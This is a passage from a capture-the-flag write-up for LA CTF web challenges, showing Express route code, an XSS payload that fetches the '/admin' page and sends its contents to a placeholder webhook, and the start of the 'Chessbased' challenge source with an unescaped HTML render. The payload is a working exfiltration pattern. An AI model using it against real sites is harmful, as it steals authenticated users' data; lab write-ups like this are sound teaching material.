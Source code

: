 ```js
});

app.get('/api/post/:id', (req, res) => {
    const post = posts.get(req.params.id);
    if (!post) return res.status(404).send('Post not found');
    return res.json(post);
});

app.get('/post/:id', (req, res) => {
    res.sendFile(__dirname + '/public/post/post.html');
});

...
....
```
It is obvious that the flag is stored in the response of the `/admin` endpoint, but we need to know the secret key. Since the secret key is stored in the admin environment variable, we can use the XSS to pass the secret from admin to the endpoint and send the response which contains the flag to our webhook:

### Payload:

```js
<img src=x onerror='fetch("/admin").then(r=>r.text()).then(d=>location="<YOUR_WEBHOOK>?"+d)'>
```

Then we quickly take our generated post link, and put into admin bot.

> lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}

## Chessbased (265 points, 21st solve/247 solves)

Another easy one:

### app.js

```js
...

const port = process.env.PORT ?? 3000;
const flag = process.env.FLAG ?? 'lactf{owo_uwu}';
const adminpw = process.env.ADMINPW ?? 'adminpw';
const challdomain = process.env.CHALLDOMAIN ?? 'http://localhost:3000/';

openings.forEach((op) => (op.premium = false));
openings.push({ premium: true, name: 'flag', moves: flag });

const lookup = new Map(openings.map((op) => [op.name, op]));

app = express();

app.use(cookieParser());
app.use('/', express.static(path.join(__dirname, '../frontend/dist')));
app.use(express.json());

app.get('/render', (req, res) => {
  const id = req.query.id;
  const op = lookup.get(id);
  res.send(`
    <p>${op?.name}</p>
    <p>${op?.moves}</p>
  `);
});

app.post('/search', (req, res) => {
```